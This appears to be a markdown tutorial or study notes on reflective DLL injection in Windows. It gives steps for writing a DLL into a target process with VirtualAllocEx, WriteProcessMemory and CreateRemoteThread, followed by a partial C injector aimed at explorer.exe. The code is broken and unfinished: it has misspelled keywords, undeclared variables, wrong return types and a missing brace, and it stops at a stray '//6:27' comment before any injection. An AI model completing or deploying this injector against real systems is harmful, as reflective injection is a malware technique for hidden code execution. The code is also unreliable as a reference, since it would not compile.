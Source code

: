 # Reflective Injection

**Reflective injection is a technique that allows an attacker to  inject a DLL into a target process from memory rather than disk.** 

## Overview
Here we will have 2 processes:
- Target process(host process)
- Injector process
- and a DLL.
Inside a DLL there will be a exported function. Name of the exported function will be **ReflectiveLoader** or it can be whatever we want. 

In brief; injector process will write the dll in the address space of target process and then it will call the exported function(ReflectiveLoader) of the DLL. Then the exported function will load itself in the target address space.

## Steps to make injector process:
1. Take command line arguments
	- pid of target process **argv[1]**
	- absolute path of the dll to be injected **argv[2]**
	- name of the exported function of dll that will load the itself(dll) **argv[3]**
2. Using the *absolute path of DLL* open the dll with required access right and read it in heap memory of injector process
3. parse the dll file copied into heap to find out the offset of the exported function(argv[3]).
4. save the offset of exported function in a variable. **If not able to find the offset then free the allocated heap memory and exit the program**.
5. else  
6. Using the *pid* open the target process with the required access rights
8. Using WIN API *VirtualAllocEx()* allocate a READ_WRITE_EXECUTABLE region in the target process.
9. using WIN API *WriteProcessMemory()* write the memory allocated in STEP8 with the dll present in the heap of injector process
10. VirtualAllocEx() function will save the first address of allocated memory space in a variable. After STEP9 that first address will be the base address of the dll.
11. adding up the base address of dll and the offset of exported function we will get the virtual address of exported function
12. This VA of exported function will be given to WIN API CreateRemoteThread() as the functionality to be executed the the thread.
  	
        
		DWORD ThreadId;
		HANDLE hThread = CreateRemoteThread(hProcess, NULL, 1024 * 1024, (LPTHREAD_START_ROUTINE)VAOfExportedFunction, NULL, (DWORD)NULL, &dwThreadId);
        	if (!hThread) {
        		printf("Error in creating thread");
        		return 1;
    		}
	    	WaitForSingleObject(hThread, -1);	

13.with this the injecter code will be completed

## code

    #include <stdio.h>
    #include <Windows.h>
    #include <string.h>
    
    typedef struct _PE_INFO {
      LPVOID base;
      BOOL Reloc; //If base relocation is needed
      LPVOID Get_Proc; //Address of GetProcAddress function 
      LPVOID Load_Dll; //Address of LoadLibraryA
    }PE_INFO, * LPE_INFO;
    
    
    // This function gives us the data of Target Process using which we will read its headers
    DWORD ReadTargetProcessMemory(char * ProcessName) {
        HANDLE hProcess;
        DWORD fileSize;
        LPVOID fileData = NULL;
        DWORD byteRead = NULL
        
        hProcess = CreateFileA(ProcessName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	    if (file == INVALID_HANDLE_VALUE) {
            printf("Could not read file");
        }
        
        fileSize = GetFileSize(hProcess, NULL);
	    fileData = HeapAlloc(GetProcessHeap(), 0, fileSize);
        if (!fileData) {
            printf("Failed to allocate heap memory");
        }
        
        ReadFile(hProcess, fileData, fileSize, &bytesRead, NULL);
        
        return fileData;
    }
    
    
    // This function will find the pid of the target process. Name of the target process will be given by command line argument
    HANDLE FindProcess(const char* processName) {
      HANDLE hSnapshot, hProcess; 
      PROCESSENTRY32 pe;
      pe.dwSize = sizeof(pe);
      BOOL found = 0;
      
      if ((hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0)) == INVALID_HANDLE_VALUE)
        return 1;
      }
    
      if(!Process32First(hSnapshot, &pe)) {
        return 1;
      }
      
      do {
        if (!strcmp(pe.szExeFile , processName)) {
          found = 1;
          break;
        }
      } while (Process32Next(hSnapshot, &pe));
      
      if (!found) {
        printf("Processnot found\n");
        retrun 1;
      }
      
      if ((hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, pe.th32ProcessID)) == NULL) {    //take a look we are asing foe all access.
                                                                                          //This can give error for someother process
        printf("Failed to open process\n");
        return 1;
      }
      
      else 
      retrun hProcess;
    }
    
    
    int main(int argc, char* argv[]) {
   
      if (argc != 2){
        printf("usage: <DLL path>");
      }
      
      HANDLE hProcess;
      DWORD base;
      PIMAGE_DOS_HEADER dos;
      PIMAGE_NT_HEADERS nt;  
      PIMAGE_SECTION_HEADER sec;
      
      base = ReadTargetProcessMemory(argv[1]);
      if (!base) {
        printf("Failed to read file");
        retrun 1;
      }
      
      dos = (PIMAGE_DOS_HEADER)base;
      if (dos->e_magic != 23117) {
        printf("Invalid file");
        retrun 1;
      }
      
      nt = (PIMAGE_NT_HEADERS)(base + dos->e_lfanew);
      sec = (PIMAGE_SECTION_HEADER)((LPVOID)nt +24 + nt->FileHeader.SizeOfOptionalHeader);
      
      if (nt->OptionalHeader.Magic != 523) {
        printf("This is not a 64-bit PE file");
        retrun 1;
      }
      
      hProcess = FindProcess("explorer.exe");
      if (!hProcess) {
        printf("Failed to open process");
        retrun 1;
      }
      
      //6:27
      
    return 0;
    }
